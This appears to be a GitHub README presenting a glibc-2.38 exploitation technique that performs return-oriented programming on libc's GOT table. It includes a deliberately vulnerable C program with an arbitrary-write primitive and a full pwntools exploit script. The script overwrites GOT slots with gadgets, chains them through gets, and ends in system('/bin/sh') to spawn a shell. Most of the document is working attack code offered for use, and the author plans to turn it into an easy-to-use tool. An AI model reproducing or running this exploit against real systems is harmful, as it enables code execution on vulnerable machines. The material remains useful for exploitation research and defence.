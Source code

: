 # Security Update
In glibc-2.38, it's harder to use this skill since glibc developers make `libc_exe_address` not writable, which is a key value of our exploitation. However, I designed another way to exploit it!
The main idea is to perform ROP on GOT. You can assume we control the whole GOT tab:

- The program calls sink functions, for example, puts
- Puts triggers our first gadget on `slot[0x11]`
- We can modify `slot[0x11]` to `asctime+0x132`, assuming ascime calls slot[0x1] at `asctime+0x140`
- So we can use the code between asctime+0x132` and `asctime+0x140`
- We can repeat the previous steps and set the registers and call gets then perform ROP to get a shell.


# POC
Compile main.c souce code on latest ubuntu-23.10:
```c
#include<stdio.h>
int main(){
    size_t addr = 0;
    size_t len = 0;
    setvbuf(stdout,0,2,0);
    printf("%p\n",printf);
    read(0,&addr,8);
    read(0,&len,8);
    read(0,addr,len);
    // strncasecmp(addr+0x300,"AAAAA",0x100);
    // free(calloc(0x10000,1));    
    puts("n132\n");
} 
```

The following exploit script should return a shell by performing ROP on GOT. 

```python
from pwn import *
context.arch='amd64'
context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']

def Xrop(libc):
    tab = [x for x in range(0x40)]
    # Idea: perform ROP on GOT
    # 1) Trigger puts, which is in the target binary
    # 2) Puts trigger slot0x11 (which is modified to # lea rdi, [rsp+5])
    # 3) The gadget "lea rdi, [rsp+5]" is found by function XropGadgets(0) so it'll trigger another GOT slot
    # 4) In this example, "lea..." gadget triggers 0xb, which is modified to "call slot[34], pop pop pop ... ret"
    # 5) slot[34] is set to gets. It'll read the input and load it to rdi (which is set to rsp+5) so we leave our rop chain on stack
    # 6) After finish slot[34], we execute 4's secont part: pop pop ... ret, which nudges the stack and we can hit our ROPchain
    tab[0x10] = 0x7ffff7de1c40-0x20+0xe # lea rdi, [rsp+5] found by XropGadgets(0)
    tab[0x2e] = 0x7ffff7e5698b # call slot_0x34 and increase rsp by pop*n , fund by XropGadgets(1)
    tab[0x33] = libc.sym['gets'] # gets

    # Make sure gets works as normal
    # So we need to put the original data for slot 8 0x2a 0x31
    tab[0x31] = 0x00007ffff7fdb9d0 
    tab[8] = 0x00007ffff7f28b80
    tab[0x2a] = 0x00007ffff7f29580
    return 0x1fe000+libc.address, flat(tab)
def XropGadgets(behind=1):
    with open("./exe.bin",'rb') as f:
        dt = f.read()
    res = []
    for x in range(len(dt)-0x100):
        if (dt[x]==0xe8 ): # call \x00\x00\x00\x00
            off = u32(dt[x+1:x+5])
            rip = 0x00007ffff7dd2000+x+5
            target = (rip+off)%0x100000000
            if((target< 0xf7dd27b0) and (target>= 0xf7dd23f0) and target&0xf == 0):    
                # if it's on got table        
                res.append(x+0x00007ffff7dd2000)
    libc    = open("/lib/x86_64-linux-gnu/libc.so.6",'rb')
    libc_data = libc.read()
    for x in res:
        success(hex(x))
        x-=0x00007ffff7dac000
        if behind == 1:
            print(disasm(libc_data[x:x+0x20]))
        else:
            print(disasm(libc_data[x-0x20:x]))
        print("="*0x40)
# XropGadgets(0)
# XropGadgets(1)
# exit(1)
libc    = ELF("/lib/x86_64-linux-gnu/libc.so.6")
p       = process("./main")
base = int(p.readline(),16) - 0x5c740
info(hex(base))
gdb.attach(p)
libc.address=base
rop = ROP(libc)
rdi = rop.find_gadget(["pop rdi",'ret'])[0]
ret = rdi + 1
dest, payload = Xrop(libc)
success(hex(len(payload)))
p.send(p64(dest))
p.send(p64(len(payload)))
p.send(payload)
p.sendline(flat([1,2,3,ret,ret,ret,ret,ret,rdi,libc.search(b"/bin/sh").__next__(),libc.sym['system']]))
p.interactive()
```

# Demostration

https://asciinema.org/a/623838


# Todo

- Make it an easy-to-use tool.
- More documents

